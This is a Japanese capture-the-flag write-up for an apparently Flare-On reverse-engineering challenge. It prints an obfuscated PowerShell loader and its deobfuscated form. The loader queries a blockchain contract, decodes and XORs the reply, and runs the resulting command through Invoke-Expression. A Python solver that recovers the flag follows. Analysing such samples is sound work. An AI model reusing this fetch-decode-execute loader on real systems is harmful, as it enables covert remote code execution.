,xednItratsK6f(gnirtsbuS\',\'N- elbairaV-teS    \n)2 * _K6f( eulaV- xednItrats emaN- elbairaV-teS    \n{\',\'aN-\',\'oY+KoY setyb ot xeh morf trevnoC #\n)1aP1\',\' a ot kc\',\'YNIoJ\',\'aN- elbairaV-t\',\'cALPER.)KoYaVIKoY,)09]RAHc[+601]RAHc[+78]RAH\',\'#\n))Iz742NOERALFIz7(setyBteG.IICSA::]gnidocnE.txeT[( eulaV- setyByek emaN- elbairaV-teKoY+KoYS\nsetyb ot yek eht trevnoC #\n))3setybK6f(gnirtSteG.8FTU::]gnidocnE.tx\',\'V-t\',\'aP ,1aPx01aP ec\',\' elbairaV-teS\ngnirtSxKoY+KoYehK6f tuKoY+KoYptuO-\',\':MATCHeS(G62)KoYKo\',\'ohtemIz7{1aP( eulaV- ydob_ emaN- elbairaV-teS\n)Iz7 Iz7( eulaV-KoY+KoY tniKoY+KoYopdne_tentset em\',\'c1aP maKoY+KoYrgorp-sserpmoc-esu-- x- ratIzKoY+KoY7( eulaV-KoY+KoY dnammoc emaKoY+KoYN- elbairaV-teS\n\n))setyBtluserK6f(gnirtSteGKoY+KoY.II\',\'- 2 / htgneL.setyBxehK6f(..0( eulaV- 3setyb emaN- \',\'tsK6f( eulaV- xednId\',\'setyBtluser emaN- \',\'43]RAHc[]GnIRTS[,)37]RAHc[+221]RAHc[+55]RAHc[((E\',\'elbairaVKoY+KoY-teS    \n{ )++iK6f ;htgneL.5setybK6f tl- iK6f ;)0( eulaV- i emaN- elbairaV-teS( rof\n))(@( eulaV- setyBtluser emaN- KoY+KoYelbairaV-teS\nnoitarepo ROX\')).REpLACE(\'DF9\',\'|\').REpLACE(\'KoY\',[STrinG][cHaR]39).REpLACE(([cHaR]71+[cHaR]54+[cHaR]50),[STrinG][cHaR]34).REpLACE(\'X2j\',\'$\').REpLACE(\'aVI\',[STrinG][cHaR]92) | &( ([stRing]$VErboSEpRefeReNCe)[1,3]+\'X\'-joiN\'\')'
```

そして、[雑な deobfuscate スクリプト](deobfuscate.py)を書くと、以下の PowerShell スクリプトが得られた（重要な部分を切り出し）:

```powershell
Set-Variable -Name testnet_endpo'+'int '+'-Value (" ")
Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{'+'"to":"$address"'+',"data":"0x5c880fcb"}, BLOCK],"id":1,7'+'zIjsonrpc":"2.0"}')
Set-Variable -Name resp -Value ((Invoke-RestMeth'+'od -Metho'+'d 'Post' -Uri $testnet_endpoint -C'+'ontentType "application/json" -Body $_body).result)

#'+' Remove the '0x' prefix
Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')
# Convert from hex to bytes '+'(ensuring pairs of hex characters)
Set-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | '+'ForEach-Objec'+'t'+' {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Variable -Name'+' endIndex -Value ($startI'+'ndex + 1)
  '+'  [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)
}) 
Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))
Set-Variabl'+'e -Name bytes2 -Value ($bytes1.Substring(64, 188))

# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64Str'+'ing($bytes2))
Set-Variable '+'-Name resultAscii'+' -Value'+' ([System.T'+'ext.Encod'+'ing]::UTF8.G'+'etString($byte'+'sFromBase64))
Set-Variable -Name hexBytes -Val'+'ue ($resu'+'ltAscii | ForEach-Object {
    '{0:X2}' -f $_  # Format each byte as two-digit hex with uppe'+'rcase letters
})
Set-V'+'ariable -Name '+'hexString -Value ($hexBytes -join'+' ' ') 
#Write-Outp'+'ut $he'+'xString
Set-Variable -Name hexBytes -V'+'alue '+'($hexBytes -replace " ", "")
# Convert from'+' hex to bytes (ensuring pairs of hex characters)
Se'+'t-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Va'+'riable -Name endIndex -Value ($startIndex + 1)
    [Convert]::ToByte($hexBytes.Substring($startIndex, 2), 16)
})
Set-Variable -Name bytes5 -Value ([Text.Encoding]::UTF8.GetString($bytes3))
# Convert the key to bytes
S'+'et-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))
# Perform the 'XOR operation
Set-Variable'+' -Name resultBytes -Value (@())
for (Set-Variable -Name i -Value (0); $i -lt $bytes5.Length; $i++) {
    Set-'+'Variable -Name resultBytes -Value ($resultBytes + ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length])) 
}
# Convert the res'+'u'+'lt ba'+'ck to a string (assuming ASCII encoding)
Set-Variable -Name resultString -Value ([System.Text.Encoding]::'+'ASC'II.'+'GetString($resultBytes))

Set-Variable -N'+'ame command '+'-Value (7'+'zItar -x --use-compress-progr'+'am 'cmd /c echo f'+'6Kresu'+'ltString > C:''fl'+'ag' -f C:''flag")
Invoke-Expression $command
```

これを見ると、コントラクトコールの結果に `FLAREON24` で XOR していそう。

そこで、関数 `0x5c880fcb` へのコール全ての結果に `FLAREON24` を XOR した。
するとフラグが得られた。
最終的な solver は以下:

```python
import subprocess
import base64
import json
from pwn import xor

tx_hashes = [
    "0xae4711c6e9d6d8f5d00a88e1adb35595bc7d7a73130e87356e3e71e65e17f337",
    "0xdbf0e117fb3d4db0cd746835cfc4eb026612ac36a80f9f0f248dce061d90ae54",
    "0x820549b2eb77e1078490eea9d2b819c219f0cfef921abaa6580d8cf628a8cd5f",
    "0xef06996ee51d24cc6bfedcaa57bdc31e56975ec98d018f211b7db114fc94b573",
    "0xb2405b84d625688c380a6ebf8e20526e9024b2b2b15700eb83437e2e19812ebe",
    "0x05660d13d9d92bc1fc54fb44c738b7c9892841efc9df4b295e2b7fda79756c47",
    "0x539ab8268334453b5f293948a89fe1b9a75aaa640571046416956c65bc611a79",
    "0x6da2ad09ec61dfc9305d4f58cc2758a0dbe3429e7726cc2098a2ae425bc6c9ef",
    "0xd086acbcedd08bf533457e627529a1206ad5e4461478ae2ce20be51659ac2734",
    "0xd4c9d45de5f45f855d117938b2fb8bea1ac4691aaf43cb6fab5dcb5fcd47c278",
    "0x88336b0a629fd096c5b8e031c603abd78f2fba0a0b09b3b03e1219098849fa73",
    "0x096bc2f76176518f7f0ca267d1ac53e9bda8d49a3e4013f84d812dbd3cf479f8",
    "0x5a6675770eff26562a47efa4e22bbf29d764351c13d8b1dce1f9c4f6a471d2f3",
]

for tx_hash in tx_hashes:
    print(tx_hash)
    cmd = f"cast tx {tx_hash} --json"
    result = subprocess.check_output(cmd, shell=True).decode("utf-8")
    tx_input = json.loads(result)["input"]
    func_args = bytes.fromhex(tx_input[2:])[4:]
    start_position = func_args[:0x20]
    assert start_position == b"\x00" * 31 + b"\x20"
    length = int(func_args[0x20:0x40].hex(), 16)
    string_data = func_args[0x40 : 0x40 + length]
    print(string_data)
    KEY = b"FLAREON24"
    try:
        decoded = base64.b64decode(string_data)
        print(decoded)
        if b" " in decoded:
            decoded = decoded.replace(b" ", b"")
            decoded = bytes.fromhex(decoded.decode())
            print(decoded)
        if len(decoded) <= 1000:
            decoded = xor(decoded, KEY)
            print(decoded)
    except Exception as e:
        print(e)
        decoded = xor(decoded, KEY)
        print(decoded)
    print()
```

Flag: `N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com`
